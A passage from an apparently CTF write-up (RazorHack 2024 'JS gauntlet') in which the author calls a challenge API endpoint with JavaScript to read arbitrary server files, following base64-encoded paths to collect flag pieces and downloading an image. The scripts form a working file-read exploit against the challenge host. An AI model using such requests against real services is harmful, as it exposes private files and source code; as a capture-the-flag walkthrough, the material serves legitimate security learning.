 ```javascript
const getFile = (file) => {
    fetch('/api/stage8/show_notification', {
        method: 'post',
        headers: {
            'content-type': 'application/json'
        },
        body: JSON.stringify({ file })
    }).then(response => response.json())
    .then(data => {
        // ew, data.data.data
        console.log(data.data.data.map(byte => String.fromCharCode(byte)).join(''))
    })
}

getFile('flag');
// flag{we
// c3JjL2FwaS5qcw==
```

This gives us the first part of the flag as well as an encoded string. If we decode this string from base64, we get another file path: *src/api.js*. We can continue this until we find all flag parts...

```javascript
getFile('src/api.js');
// ... some code ...
// _have_bea
// aW5kZXguanM= (base64 decode: index.js)
// ... some code ...

getFile('index.js');
// ... some code ...
// ten_them
// cHVibGljL2ltZy9jb25ncmF0cy5wbmc= (base64 decode: public/img/congrats.png)
// ... some code ...

getFile('public/img/congrats.png');
// it is an image, shown below
```

@ <img src="<steve> return Steve.staticFile('/res/blog/razorhack-ctf-2024/congrats.jpg'); </steve>" style="text-align: center;"/>

To actually get the image file, I wrote another script that fetches and stores it in a file (written in NodeJS)...

```javascript
import fs from 'node:fs';

const file = 'public/img/congrats.png';

fetch('http://razorhack-js-gauntlet-2.chals.io/api/stage8/show_notification', {
    method: 'post',
    headers: {
        'content-type': 'application/json',
        cookie: cookie
    },
    body: JSON.stringify({ file })
})
.then(response => response.json())
.then(data => {
    fs.writeFileSync(file, Buffer.from(data.data.data));
})
```
